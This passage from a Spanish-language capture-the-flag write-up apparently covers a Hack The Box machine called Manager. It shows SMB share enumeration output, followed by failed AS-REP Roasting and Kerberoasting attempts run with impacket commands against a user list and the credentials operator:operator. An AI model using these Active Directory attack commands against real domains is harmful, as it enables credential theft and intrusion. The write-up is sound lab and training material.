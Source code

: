 ```bash
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.10.11.236:445        Name: manager.htb               Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
[*] Closed 1 connections
```
Aunque de aquí no obtendremos nada.

<br>

<h3 id="ASREP">Aplicando AS-REP Roasting attack (Fallo)</h3>

De igual forma, como ya tenemos una lista de usuarios, podemos aplicar el **AS-REP Roasting attack** y ver si obtenemos el **hash** de un **TGT** de algún usuario.

Utilizamos el **GetNPUsers de impacket**, al que le indicamos el que no tenemos alguna contraseña y que usaremos una lista de usuarios:
```bash
impacket-GetNPUsers -no-pass -usersfile users.txt manager.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
[-] User zhong doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ryan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User cheng doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User chinhae doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User raven doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jinwoo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User operator doesn't have UF_DONT_REQUIRE_PREAUTH set
```
Nada, fue un fallo aplicar este ataque.

<br>

<h3 id="kerberoasting"> Aplicando Kerberoasting Attack (Fallo)</h3>

Como ya tenemos un usuario y contraseña válido, podemos intentar aplicar el **Kerberoasting Attack** para poder obtener un **TGS** e intentar crackearlo.

Usaremos **GetUserSPNs de impacket**, indicándole el dominio y el usuario y contraseña:
```bash
impacket-GetUserSPNs manager.htb/operator:operator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

No entries found!
```
No se obtuvo nada. Descartamos este ataque también.

